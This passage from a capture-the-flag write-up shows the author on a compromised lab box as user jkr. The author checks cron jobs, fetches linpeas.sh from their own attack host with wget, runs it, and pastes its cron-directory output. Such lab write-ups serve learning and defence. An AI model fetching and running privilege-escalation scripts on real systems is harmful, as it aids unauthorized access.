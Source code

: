 ```bash
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && /bin/run-parts --report /etc/cron.monthly )
```

There were a few root processes, including `cron`, but no jobs specified.

## Linpeas

I switched to Linpeas:

```bash
jkr@writeup:/tmp$ cd /tmp && wget http://10.10.16.211:8000/linpeas.sh
--2021-07-15 16:39:22--  http://10.10.16.211:8000/linpeas.sh
Connecting to 10.10.16.211:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 325084 (317K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                         100%[=============================================================================================================>] 317.46K  1.29MB/s    in 0.2s    

2021-07-15 16:39:23 (1.29 MB/s) - ‘linpeas.sh’ saved [325084/325084]

jkr@writeup:/tmp$ chmod +x linpeas.sh 
jkr@writeup:/tmp$ ./linpeas.sh 
```

### Highlights

```
[+] Cron jobs
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-cron-jobs
-rw-r--r-- 1 root root  742 Oct  7  2017 /etc/crontab

/etc/cron.d:
total 16
drwxr-xr-x  2 root root 4096 Apr 19  2019 .
drwxr-xr-x 81 root root 4096 Aug 23  2019 ..
-rw-r--r--  1 root root  702 Apr 19  2019 php
-rw-r--r--  1 root root  102 Oct  7  2017 .placeholder

/etc/cron.daily:
total 36
drwxr-xr-x  2 root root 4096 Apr 19  2019 .
drwxr-xr-x 81 root root 4096 Aug 23  2019 ..
-rwxr-xr-x  1 root root  539 Nov  3  2018 apache2
-rwxr-xr-x  1 root root 1474 Sep 13  2017 apt-compat
-rwxr-xr-x  1 root root  355 Oct 25  2016 bsdmainutils
-rwxr-xr-x  1 root root 1597 Feb 22  2017 dpkg
-rwxr-xr-x  1 root root   89 May  5  2015 logrotate
-rwxr-xr-x  1 root root  249 May 17  2017 passwd
-rw-r--r--  1 root root  102 Oct  7  2017 .placeholder

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Apr 19  2019 .
drwxr-xr-x 81 root root 4096 Aug 23  2019 ..
-rw-r--r--  1 root root  102 Oct  7  2017 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x  2 root root 4096 Apr 19  2019 .
drwxr-xr-x 81 root root 4096 Aug 23  2019 ..
```